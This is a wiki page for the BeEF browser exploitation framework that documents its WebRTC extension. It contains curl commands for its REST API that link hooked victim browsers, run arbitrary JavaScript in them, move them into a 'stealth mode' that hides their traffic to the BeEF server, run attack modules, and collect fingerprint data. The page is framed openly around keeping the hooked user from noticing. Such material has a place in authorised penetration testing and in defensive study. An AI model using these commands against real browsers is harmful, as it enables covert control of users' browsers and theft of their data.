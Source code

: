 ## Introduction

By default, BeEF uses XMLHttpRequest objects to poll to your BeEF server every 5 seconds. The logic is in the `updater.js` file of the core BeEF JavaScript client. It executes a `setTimeout()` function call that executes `beef.updater.get_commands()`, requesting the `hook.js` file from the BeEF server.

BeEF has options to use the WebSocket protocol as well, which shifts the comms from a polling mechanism to a more bi-directional streaming method of sending and receiving data between the server and browsers. 

The problem with both the hook polling and WebSocket communication is exposure of the BeEF server. Not only does the IP address of the BeEF server gets exposed over the network, the communications are visible in the "Network" tabs of browser developer tools. This increases the risk of the experienced user realizing that their browser is hooked.

[[Images/beef-hooks.png|align=center]]

## Enabling the webrtc extension

By default, the webrtc extension is disabled. To enable it, simply edit `<beef_root>/extensions/webrtc/config.yaml` and set enable to `true`

snippet of the file:
```yaml
beef:
    extension:
        webrtc:
            name: 'WebRTC'
            enable: true #enable the extension
```

## console usage

When this extension is written, the console module is still usable and supported. Unfornately, it is no longer usable.

see https://blog.beefproject.com/2015/01/hooked-browser-meshed-networks-with_26.html for console usage examples

## Rest API usage

### Get WebRTC status of a hooked browser

`GET /api/webrtc/status/:id`

**Request**

for getting the status of id 1:
```
curl http://localhost:3000/api/webrtc/status/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**
`{"success":true}`

that means WebRTC is available for that session.

### initiating WebRTC between two hooked browsers


`POST /api/webrtc/go`

**Request**
This initiates WebRTC communication between browsers 1 and 2.

```
curl -d '{"from":1,"to":2}' \
     http://localhost:3000/api/webrtc/go?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


### Sending messages

**Request**
This sends a message between browsers 1 and 2.

```
curl -d '{"from":1, "to":2, "message":"Just a plain message"}' \
     http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


#### Sending javascript to execute

The built in message handler for executing javascript is `%<code>`, sent just like a normal message.

This sends a message from browser 1 to 2 to execute a piece of JavaScript:

**Request**
```
curl -d '{"from":1, "to":2, "message":"%alert(\"hello\");"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### stealth mode

Stealth mode is also sent as a message between two browsers. The `to` browser will be put into stealth mode, tunneling its communication with the BeEF server through the `from` browser.

### going into stealth mode

**Request**

This puts browser 2 into stealth mode (it stops communicating with the BeEF server)
```
curl -d '{"from":1, "to":2, "message":"!gostealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### getting out of stealth mode

**Request**

```
curl -d '{"from":1, "to":2, "message":"!endstealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### Executing modules through WebRTC

**Request**

Tell browser 2 (without communicating with the BeEF server) to execute command 102 through browser 1

the name is name of the option, and value is the corresponding option value.

```
curl -d '{"from":1, "to":2, "cmdid":102, "options":[{"name":"Domain","value":"default_all"}]}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://127.0.0.1:3000/api/webrtc/cmdexec?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

The result will be displayed in the BeEF terminal ouput, and stored in the command events of the `from` browser.


### Getting event data from a browser

`GET /api/webrtc/cmdevents/:id`

**Request**

Get all events on browser 1

```
curl http://127.0.0.1:3000/api/webrtc/cmdevents/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

```
{"events_count":1,"events":[{"id":1,"hb_id":1,"target_id":2,"status":"fingerprint=223c40dcd69ee362dcf478a80d34bbe8&components=[{\"key\":\"userAgent\",\"value\":\"Mozill...(snipped)
```

> the results of command execution are stored in the `from` browser. In this case, all command results from browser 2 are accessible through requesting events on browser 1.

For further information about the extension, read example RestAPI usage in 

`<beef_root>/extensions/webrtc/rest/webrtc.rb`

[[Previous|Module-creation]] | [[Next|Development-Organization]]